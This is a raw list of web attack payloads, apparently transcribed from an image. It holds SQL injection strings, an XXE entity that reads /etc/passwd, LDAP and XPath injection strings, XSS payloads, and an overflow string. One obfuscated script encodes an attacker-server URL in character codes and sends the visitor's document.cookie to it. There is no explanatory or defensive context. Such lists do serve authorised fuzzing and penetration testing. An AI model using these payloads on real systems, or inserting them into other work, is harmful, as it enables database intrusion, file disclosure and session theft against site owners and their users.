```txt
'||(elt(-3+5,bin(15),ord(10),hex(char(45))))
||6
'||'6
(||6)
' OR 1=1--
OR 1=1
' OR '1'='1
; OR '1'='1'
' or 1=1--
\" or 1=1--
' or 1=1 /*
or 1=1--
' or 'a'='a
\" or \"a\"=\"a
') or ('a'='a
Admin' OR '
<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xee;</foo>
admin*
admin*)((|userPassword=*)
*)(uid=*))(|(uid=*
*|
'+or+'1'='1
'+or+''='
x'+or+1=1+or+'x'='y
count(/child::node())
x'+or+name()='username'+or+'x'='y
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<script>alert(0)</script>
<iframe src=javascript:alert(1)>
\"><img src=x onerror=prompt(1);>
<script>alert(1)<!–
<a onmouseover\"alert(1)\">test</a>
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```txt


